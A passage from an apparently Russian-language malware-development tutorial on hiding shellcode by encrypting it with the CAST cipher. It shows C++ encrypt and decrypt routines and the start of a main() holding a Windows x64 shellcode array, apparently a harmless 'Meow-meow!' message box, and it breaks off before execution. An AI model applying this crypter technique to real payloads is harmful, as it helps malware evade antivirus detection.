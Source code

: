 Основная логика - это функции для шифрования и дешифрования шеллкода:    

```cpp
void cast_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_encrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}

void cast_decrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint32_t subkeys[ROUNDS][4]) {
  for (int i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    cast_decrypt((uint32_t*)(shellcode + i * BLOCK_SIZE), subkeys);
  }
}
```

Как вы можете видеть, они обрабатывают шеллкод блок за блоком (`8`-байт за раз). Обратите внимание, что если длина шеллкода не кратна размеру блока, то она дополняется (`0x90`) перед шифрованием и соответствующим образом расшифровывается.

Наконец, нам нужно запустить полезную нагрузку:  

```cpp
int main() {
  unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  unsigned char padded[my_payload_len];
  memcpy(padded, my_payload, my_payload_len);

  uint32_t subkeys[ROUNDS][4];
  cast_key_schedule(key, subkeys);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  cast_encrypt_shellcode(padded, my_payload_len, subkeys);

```